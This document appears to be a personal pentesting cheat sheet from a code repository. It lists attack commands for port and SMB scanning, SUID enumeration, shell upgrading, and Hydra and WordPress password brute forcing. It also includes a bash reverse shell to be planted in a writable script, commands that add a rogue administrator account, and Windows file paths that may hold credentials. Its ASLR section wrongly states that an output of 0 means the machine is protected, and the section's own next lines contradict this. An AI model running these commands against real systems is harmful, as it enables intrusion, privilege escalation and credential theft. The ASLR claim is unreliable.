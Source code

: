 # Pentesting

## Common Scans

### Initial, quick port scan

`nmap -vv -sV -sC -oN initial <ip>`

### Slower, complete port scan

`nmap -vv -sV -sC -p- -A -oN full <ip>`

### SMB

#### Finds SMB Vulnerabilities

`nmap -sC -sV -p<port> <ip> --script=smb-vuln*`

#### Enumerates SMB

`smbclient -L \\\\<ip>\\ -N`

### Directories

#### Gobuster directories scan (using wordlist)
`gobuster dir -e -u <ip> -w <path_to_wordlist>`

## SUID Bit Escalation

`find / -perm -u=s -type f 2>/dev/null`

`getcap -r / 2>/dev/null`

Once you have found different programs and SUID bits to be exploited, you can find default steps to spawn shells and other things at this website: https://gtfobins.github.io/

## Shell Upgrading

Once you have a reverse shell on a machine with python (or python3) available, you can try running these commands to upgrade the shell:

`python -c 'import pty; pty.spawn("/bin/bash")'`

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Lateral Movement

### Hijacking a writable script
if the victim runs this, a shell with their privileges is generated. (assuming the attacker is listening at `IP:PORT`)
```bash
bash -i &>/dev/tcp/<IP>/<PORT> 0>&1
```

## Enumerate Writable Folders
`find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`

## List current user's sudo permissions
`sudo -l`

## Run a command as a different user with sudo (if permitted)
`sudo -u <user> <command>`

## Hydra Password Brute Force

`hydra -l username -p passwordlist.txt <target>`

## See running crobjobs
`cat /etc/crontab`

## Wordpress Scans

### Enumerates Users

`wpscan --url <ip>/<directory> -e u`

### Brute Forces Passwords

`wpscan --url <ip>/<directory> --passwords <password_list> --username <user>`

## SMB Commands

### List Network Shares

`smbclient -L <ip>`

### Connect To Share

`smbclient \\\\<ip>\\<share_name>`

## BinExp Code Execution

### check for ASLR status
`cat /proc/sys/kernel/randomize_va_space`

- if this outputs `0`, the machine is protected against binary exploits.
- if Address Space Layout Randomization (ASLR) is disabled, then the memory addresses
  of key system data is not randomized.
  - As such, a binary exploit would be able to run arbitrary code.
- resouce: https://www.exploit-db.com/docs/english/17914-bypassing-aslrdep.pdf

- to disable ASLR: `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`
- src: https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization


## NFS Exploit

### 1. Check to see if there are any folders running on the machine that indicate they can be mounted to.
`showmount -e <ip>`

```
Export list for 10.10.60.230:
/srv/nfs *
```
The star indicates that anyone can mount to this folder. If that was not true, there would be a list of IPs that were allowed to mount to it.

### 2. Make a temp directory to mount to the filesystem.
`mkdir /tmp/infosec`

### 3. Mount to that directory and see what is inside, and if you can upload files.
`sudo mount -t nfs <ip>:/<directory> /tmp/infosec`

## Windows

### Get Current User Privileges
`whoami /priv`

### List Users
`net users`

### List User Information
`net user <username>`

### List Listening Ports
`netstat -ano`

### List Other Logged-In Users
`qwinsta`

`query session`

### List User Groups
`net localgroup`

### List Users In Group
`net localgroup <groupname>`

### Get OS Name and Version
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

### List System Updates
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

### Add user to machine and give administrator permissions
`net user <username> <password> /add`

`net localgroup administrators <username> /add`

## Notes
### Directories To Enumerate (Windows)
* `C:\Program Files\FileZilla Server\FileZilla Server.xml`
    - May contain credentials 
* `C:\xampp\FileZilla Server\FileZilla Server.xml`
    - May contain credentials 
